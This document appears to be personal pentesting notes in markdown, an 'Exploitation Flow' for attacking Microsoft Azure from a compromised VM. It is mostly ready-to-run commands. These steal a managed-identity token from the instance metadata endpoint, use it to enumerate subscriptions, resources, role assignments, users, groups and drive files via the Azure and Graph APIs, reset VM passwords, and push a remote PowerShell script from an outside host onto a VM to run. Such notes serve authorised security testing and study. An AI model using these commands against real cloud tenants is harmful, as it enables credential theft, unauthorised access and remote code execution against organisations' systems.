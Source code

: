 # Exploitation Flow 
### Login tricks
AZ cli AzAD login - ```az login --use-device --allow-no-subscriptions```

### Commands
```
List users - az ad user list
List groups - az ad group list

```

### Buffer
```
### Try this
$pscredential = Get-Credential
Connect-AzureRmAccount -ServicePrincipal -ApplicationId "http://my-app" -Credential $pscredential -TenantId $tenantid
AzCopy /Source:https://myaccount.blob.core.windows.net/mycontainer /Dest:C:\myfolder /SourceKey:key /S
Explore :
- https://cloud.hacktricks.xyz/pentesting-cloud/azure-security
- https://microsoft.github.io/Azure-Threat-Research-Matrix/
```

### 1. Get shell 

### 2. ```env```

### 3. Metadata 

3.1 Get metadata of the azure vm
```
curl -H Metadata:true "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```
3.2 Get auth token of managed identity
```
curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F'
```

### 4. Enum
4.1 Get list of subscriptions
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01
```

4.2 List of resource groups and resources
```
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resourcegroups?api-version=2019-10-01
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resources?api-version=2019-10-01 
```

### 5. ARM resources
List resources user has atlease read privilege
```az role assignment list --scope <resource-id> --include-inherited```
```curl -X GET -H "Authorization: Bearer ${TOKEN}" -H "Content-Type: application/json" "https://management.azure.com/<resource-id>/providers/Microsoft.Authorization/roleAssignments?api-version=2020-04-01-preview"```

Access cloud shell drive data
```
curl -H "Authorization: Bearer ${TOKEN}" -H "Content-Type: application/json" -X GET "https://portal.azure.com/api/v1/?environment=clouddrive"
```

Get deployment history ```az deployment group list --resource-group rgname```

#### VM commands

VM password reset 
```
az vm user update -u username -p password -n <VM_Name> -g <Resource_Group>
```

VM run command
```
Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1
```

VM command for running a ps script
```
Set-AzVMCustomScriptExtension -ResourceGroupName TEST -VMName PentestVM -Location westcentralus -FileUri 'http://book.azurepentesting.com/whoami.ps1' -Run 'whoami.ps1' -Name CustomScriptExtension
```

### 6. MS Graph access
Get access token
```az account get-access-token --resource https://graph.microsoft.com```

Get user info
```curl -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/me```

Get list of users
```curl -X GET -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/users ```

Get list of Groups
```curl -X GET -H "Authorization: Bearer ${TOKEN}" https://graph.microsoft.com/v1.0/groups```

Get groups
```
az role assignment list --scope /subscriptions/2213e8b1-dbc7-4d54-8aff-b5e315df5e5b/resourceGroups/1-6417d8f7-playground-sandbox/ --include-inherited
```

Role assignments: ```curl -H "Authorization: Bearer <access_token>" https://graph.microsoft.com/v1.0/me```

List of groups I am a member of 
```
curl -X GET -H "Authorization: Bearer ${TOKEN}" "https://graph.microsoft.com/v1.0/me/memberOf/$/microsoft.graph.group?$filter=groupTypes/any(c:c%20eq%20'unified')"
```

curl -X GET -H "Authorization: Bearer ${TOKEN}" "https://graph.microsoft.com/v1.0/me/drive/root/children"


### Misc useful commands


### Lab setup 
```az deployment group create --resource-group sec --template-file ./file.json``` #To re create deployment history with arm tenplate
